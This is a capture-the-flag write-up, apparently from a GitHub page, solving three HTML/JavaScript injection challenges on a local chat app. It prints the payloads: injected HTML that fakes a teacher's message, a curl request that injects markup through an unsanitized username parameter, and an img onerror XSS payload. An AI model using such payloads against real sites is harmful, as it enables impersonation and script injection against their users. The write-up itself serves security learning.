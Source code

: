 # HTML/Javascript Injection

## Class Cancellation

```text
The Chat

Login
Username: 
```

After logging in..

```text
The Chat

Post as user
Message: 
```

After posting...

![image](cc1.png)

The goal of the challenge is to create a message that looks like it was sent by the teacher, directly mimicing the structure of the other messages, that says Class Is Canceled!

If we log in as "teacher", we get "Posting as the teacher is strictly prohibited!"

We need to craft a post by user that injects HTML to mimic teacher's post. The HTML of the above image is:

```html
<hr>
<b>user:</b>
somepost2
<hr>
<b>user:</b>
somepost
```

Crafting the payload:

```text
gimme flag <hr><b>teacher:</b> Class Is Canceled!
```

![image](cc2.png)

Running the `victim` script now gives the flag

## Class Cancellation 2

This is similar to the previous challenge, but this time each `<` in payload is converted into `(`

For posting a message, a GET request is made at `/post?message=<message>&user=<username>`

Since message is sanitized, we can inject HTML in username:

```text
user=</b>gimme flag <hr><b>teacher&message=Class Is Canceled!
curl 'http://challenge.localhost/post?user=%3C%2Fb%3Egimme%20flag%20%3Chr%3E%3Cb%3Eteacher&message=Class%20Is%20Canceled%21'
```

![image](cc3.png)

## Class Cancellation 3

In this challenge, we have to formulate some message that sends out the alert Class is Canceled!

Post this payload:

```html
<img src=x onerror='alert("Class is Canceled!")'>
```
